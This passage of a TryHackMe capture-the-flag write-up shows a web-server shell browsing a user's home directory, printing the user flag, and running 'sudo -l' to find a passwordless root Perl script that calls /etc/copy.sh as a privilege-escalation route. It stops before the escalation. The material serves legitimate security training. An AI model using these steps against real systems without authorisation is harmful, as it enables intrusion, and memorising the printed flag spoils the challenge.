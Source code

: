 And we have a connection! Lets check the flag:

```bash

www-data@THM-Chal:/$ cd home
cd home
www-data@THM-Chal:/home$ ls
ls
itguy
www-data@THM-Chal:/home$ cd it
cd itguy/
www-data@THM-Chal:/home/itguy$ cd itguy
cd itguy
bash: cd: itguy: No such file or directory
www-data@THM-Chal:/home/itguy$ ls
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
www-data@THM-Chal:/home/itguy$ cat user.txt
cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
www-data@THM-Chal:/home/itguy$

```


Answer: `THM{63e5bce9271952aad1113b6f1ac28a07}`


### What is the root flag? 

Now we need a way to escalate our privileages. First we check what the user is allowed to do with `sudo -l`:
``` bash

www-data@THM-Chal:/var/log$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
www-data@THM-Chal:/var/log$
```
Very interesting, we have `root` permissions for executing the `backup.pl` file via `perl`. Lets check the content of the `perl file`:
```bash
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
